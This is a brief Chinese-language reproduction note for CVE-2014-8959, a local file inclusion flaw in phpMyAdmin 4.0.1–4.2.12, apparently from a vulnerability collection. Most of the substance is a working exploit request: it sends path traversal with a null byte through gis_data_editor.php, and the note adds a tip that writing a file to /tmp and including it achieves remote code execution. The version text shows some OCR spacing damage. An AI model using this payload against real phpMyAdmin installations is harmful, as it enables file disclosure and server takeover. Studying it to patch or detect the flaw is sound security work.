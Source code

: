 # （CVE-2014 -8959）Phpmyadmin 本地文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

* phpMyAdmin 4 .0.1--4 .2.12
* PHP version 

### 三、复现过程


```
/gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=
/../../../../phpinfo.txt%00    # 注意改下token值
```

在实际利用中可以利用写入文件到 /tmp 目录下结合此漏洞完成 RCE，php 版本可以通过 http header、

导出表内容到文件的附加内容看到。